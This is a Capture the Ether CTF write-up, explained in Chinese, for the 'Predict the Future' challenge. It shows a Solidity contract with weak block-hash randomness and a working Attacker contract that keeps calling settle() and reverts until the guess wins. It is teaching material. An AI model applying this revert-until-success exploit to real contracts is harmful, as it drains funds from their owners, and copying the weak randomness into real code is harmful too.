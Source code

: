 This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

Note that it is indeed possible to solve this challenge without losing any ether.

```solidity
pragma solidity ^0.4.21;

// 0xd9aD89E42a9b19b499cD0D63F7Ec76a5b708E43B
contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```







参考链接1：https://coinsbench.com/capture-the-ether-predict-the-future-cb5acf12a8cb

参考链接2：https://cmichel.io/capture-the-ether-solutions/

参考链接3：https://www.anquanke.com/post/id/154104#h3-5

这个puzzle需要调用**lockInGuess**先用输入答案，再调用**settle**来检查之前输入的答案对不对，但是执行**lockInGuess**时会将**settlementBlockNumber**设置为当前block.number + 1，而执行**settle**的时候则需要当前block.number大于**settlementBlockNumber**，这意味着无法在同一个交易中先**lockInGuess**再**settle**，因为同一笔交易中的block.number是一样的

解法如下代码所示，先调用**lockNum**，然后重复不断调用**attack**直到尝试成功



```solidity
pragma solidity ^0.8.0;

interface PredictTheFutureChallenge {
    function isComplete() external view returns (bool) ;

    function lockInGuess(uint8 n) external payable ;

    function settle() external ;
}

// 0x9c6c2E60295b8BA499C19FA6cDdCeDA5A9E09Db4
contract Attacker {
    address public owner;
    PredictTheFutureChallenge public victim;

    constructor(address _addr) {
        owner = msg.sender;
        victim = PredictTheFutureChallenge(_addr);
    }

    function lockNum(uint8 n) external payable{
        require(n >= 0 && n <=9, "Number must be in the 0-9 range");

        victim.lockInGuess{value: 1 ether}(n);
    }

    function attack() external payable{
        victim.settle();
        require(victim.isComplete(), "Wrong answer");
    }

    function withdraw() external {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {}
}
```





